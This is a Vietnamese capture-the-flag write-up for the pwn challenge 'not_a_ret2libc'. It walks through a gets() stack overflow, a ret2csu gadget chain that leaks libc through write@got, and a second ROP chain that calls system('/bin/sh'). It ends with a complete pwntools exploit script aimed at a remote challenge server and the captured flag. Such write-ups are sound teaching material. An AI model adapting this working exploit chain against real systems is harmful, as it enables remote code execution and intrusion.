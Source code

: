 # not\_a\_ret2libc (Pwn)

Bài này đưa sẵn source code, libc

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

{% code title="not_ret2libc.c" lineNumbers="true" %}
```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```
{% endcode %}

Nhìn đề bài cho libc là biết phải leak được libc ( don't care about the title :))) ). Mình sẽ cố gắng gọi  `write(1,write@got,8)`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Bài này không có `pop rdx` gadget nên mình nghĩ tới cách ret2csu.

Kiểm tra hàm `__libc_csu_init`

```asmatmel
   0x00000000004011a0 <+0>:     endbr64 
   0x00000000004011a4 <+4>:     push   r15
   0x00000000004011a6 <+6>:     lea    r15,[rip+0x2c63]        # 0x403e10
   0x00000000004011ad <+13>:    push   r14
   0x00000000004011af <+15>:    mov    r14,rdx
   0x00000000004011b2 <+18>:    push   r13
   0x00000000004011b4 <+20>:    mov    r13,rsi
   0x00000000004011b7 <+23>:    push   r12
   0x00000000004011b9 <+25>:    mov    r12d,edi
   0x00000000004011bc <+28>:    push   rbp
   0x00000000004011bd <+29>:    lea    rbp,[rip+0x2c54]        # 0x403e18
   0x00000000004011c4 <+36>:    push   rbx
   0x00000000004011c5 <+37>:    sub    rbp,r15
   0x00000000004011c8 <+40>:    sub    rsp,0x8
   0x00000000004011cc <+44>:    call   0x401000 <_init>
   0x00000000004011d1 <+49>:    sar    rbp,0x3
   0x00000000004011d5 <+53>:    je     0x4011f6 <__libc_csu_init+86>
   0x00000000004011d7 <+55>:    xor    ebx,ebx
   0x00000000004011d9 <+57>:    nop    DWORD PTR [rax+0x0]
   0x00000000004011e0 <+64>:    mov    rdx,r14
   0x00000000004011e3 <+67>:    mov    rsi,r13
   0x00000000004011e6 <+70>:    mov    edi,r12d
   0x00000000004011e9 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x00000000004011ed <+77>:    add    rbx,0x1
   0x00000000004011f1 <+81>:    cmp    rbp,rbx
   0x00000000004011f4 <+84>:    jne    0x4011e0 <__libc_csu_init+64>
   0x00000000004011f6 <+86>:    add    rsp,0x8
   0x00000000004011fa <+90>:    pop    rbx
   0x00000000004011fb <+91>:    pop    rbp
   0x00000000004011fc <+92>:    pop    r12
   0x00000000004011fe <+94>:    pop    r13
   0x0000000000401200 <+96>:    pop    r14
   0x0000000000401202 <+98>:    pop    r15
   0x0000000000401204 <+100>:   ret  
```

Yeah, tại `__libc_csu_init+64`  có gadget `mov rdx,r14` giúp ta ghi thanh rdx.

Đầu tiên mình sẽ sử dụng các gadget bắt đầu ở `__libc_csu_init+90` để ghi các giá trị mong muốn vào cách thanh ghi.

`mov rdx,r14` -> ghi đè r14=8

`mov rsi,r13` -> ghi đè r13=write@got

`mov edi,r12d` -> ghi đè r12=1

`call QWORD PTR [r15+rbx*8]` -> ghi đè r15=write@got và rbx=0

`add rbx,0x1; cmp rbp,rbx` -> ghi đè rbp=1 để thoát loop `jne 0x4011e0` `<__libc_csu_init+64>`

ROPchain đầu tiên

```python
payload =b'0'
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp=1
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r14
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"]) #back to main
```

Đoạn sau chỉ cần lợi dụng địa chỉ của hàm `write` bị leak để tính địa chỉ của chuỗi `"/bin/sh"` và hàm `system`

```python
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
```

ROPchain trước đã giúp ta quay lại hàm main, giờ gửi thêm ROPchain mới để gọi hàm system

```python
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
```

Scirpt giải

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
exe = ELF("not_a_ret2libc_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
pop_rdi_ret=0x0000000000401203
pop_rsi_pop_r15_ret=0x0000000000401201
context.binary = exe
context.log_level='debug'
#p=exe.process()
#gdb.attach(p,gdbscript="b *main+62")
p=remote("45.122.249.68",10022)
#stage1
p.recv()
sleep(1)
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r15
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"])
p.sendline(payload)
sleep(1)
leak=p.recv()[:8][::-1]
sleep(1)
log.info(leak.hex())
#calculate
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
#stage2
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
p.sendline(payload)
sleep(1)
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{t0o_m4nY_g4dg3t_f0r_Xplo1t}`







